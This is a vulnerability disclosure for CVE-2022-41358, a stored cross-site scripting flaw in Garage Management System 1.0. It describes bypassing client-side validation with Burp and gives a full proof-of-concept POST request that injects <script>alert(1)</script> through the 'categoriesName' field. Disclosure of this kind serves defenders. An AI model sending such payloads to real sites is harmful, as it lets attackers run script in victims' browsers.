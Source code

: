 ## Exploit Title: Garage Management System 1.0 - 'categoriesName' - Stored XSS
## Exploit Author: Sam Wallace
## Software Link: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html
## Version: 1.0
## Tested on: Debian
## ID: CVE-2022-41358

&nbsp;

## Summary:
Garage Management System utilizes client side validation to prevent XSS.
Using burp, a request can be modified and replayed to the server bypassing this validation which creates an avenue for XSS.

&nbsp;

### When messages suggest that validation is occuring this is a good point in time to validate that these checks are also being completed server side. 
![Alt text](/img/client_side_validation.png "Optional title")

&nbsp;

### This is the request prior to any modifications in Burp.
![Alt text](/img/Intercept.png "Optional title")

&nbsp;

### Perform a quick modification in Burp...
![Alt text](/img/Tamper.png "Optional title")

&nbsp;

### Profit!
![Alt text](/img/profit.png "Optional title")

&nbsp;

### Proof
![Alt text](/img/stored_xss.png "Optional title")
#### POC

```
Parameter: categoriesName
URI: /garage/php_action/createCategories.php
```

```POST /garage/php_action/createCategories.php HTTP/1.1
Host: 10.24.0.69
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.24.0.69
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqKDsN4gmatTEEkhS
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.24.0.69/garage/add-category.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=gbklvcv3vvv987636urv0gg53u
Connection: close

------WebKitFormBoundaryqKDsN4gmatTEEkhS
Content-Disposition: form-data; name="categoriesName"

<script>alert(1)</script>
------WebKitFormBoundaryqKDsN4gmatTEEkhS
Content-Disposition: form-data; name="categoriesStatus"

1
------WebKitFormBoundaryqKDsN4gmatTEEkhS
Content-Disposition: form-data; name="create"


------WebKitFormBoundaryqKDsN4gmatTEEkhS--


![Alt text](/img/Intercept.png "Optional title")
```


## Reference:

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41358